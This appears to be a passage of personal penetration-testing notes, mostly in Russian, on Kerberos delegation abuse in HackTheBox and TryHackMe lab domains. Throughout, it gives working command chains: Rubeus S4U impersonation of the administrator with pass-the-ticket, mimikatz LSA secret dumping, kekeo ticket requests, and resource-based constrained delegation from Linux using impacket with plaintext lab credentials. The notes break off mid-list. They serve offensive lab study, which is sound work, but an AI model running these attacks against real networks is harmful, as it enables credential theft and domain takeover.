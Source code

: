 		.\Rubeus.exe s4u /user:HACKTHEBOX$ /rc4:CF767C9A9C529361F108AA67BF1B3695 /impersonateuser:administrator /msdsspn:cifs/dc01.inlanefreight.local /ptt
		klist
  		ls \\dc01.inlanefreight.local\c$
  
*** другой способ
  		
    		C:\Tools\mimikatz_trunk\x64\mimikatz.exe

		mimikatz # token::elevate

		mimikatz # lsadump::secrets   			----- Запросим пароль учетки имеюзей право делегироватся

		Затем просим TGT

  		kekeo # tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:redacted

		Затем просим TGS

		kekeo # tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones(админ на нужной такчуке) /service:http/THMSERVER1.za.tryhackme.loc
		tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:wsman/THMSERVER1.za.tryhackme.loc

		Затем импортируем TGS через mimikatz

		mimikatz # privilege::debug
		Privilege '20' OK

		mimikatz # kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_wsman~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

		mimikatz # kerberos::ptt TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi

		и входим

		И заходим через wsman


		New-PSSession -ComputerName thmserver1.za.tryhackme.loc

		Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc

* (RBCD from LINUX)
	*** дОБАВЛЯЕМ КОМПУТЕР В ДОМЕН
  
  		addcomputer.py -computer-name 'HACKTHEBOX$' -computer-pass 'Hackthebox123!' -dc-ip 10.129.205.35 inlanefreight.local/carole.holmes:Y3t4n0th3rP4ssw0rd
  	*** Затем нам необходимо добавить эту учетную запись в список доверия целевого компьютера (DC01), что возможно, поскольку carole.holmes имеет GenericAll ACLна этом компьютере
  	Нуежен тот кто влияет на конечный хост (DC, SQL, HTTP) потому что нужно добавить делегата в ACL хоста

  		impacket-rbcd -dc-ip dc01 -delegate-to DC01$ -delegate-from HACKTHEBOX$ inlanefreight.local/carole.holmes:Y3t4n0th3rP4ssw0rd -action write
		ИЛИ
  		python3 rbcd.py -dc-ip 10.129.205.35 -t DC01 -f HACKTHEBOX inlanefreight\\carole.holmes:Y3t4n0th3rP4ssw0rd

  		или
		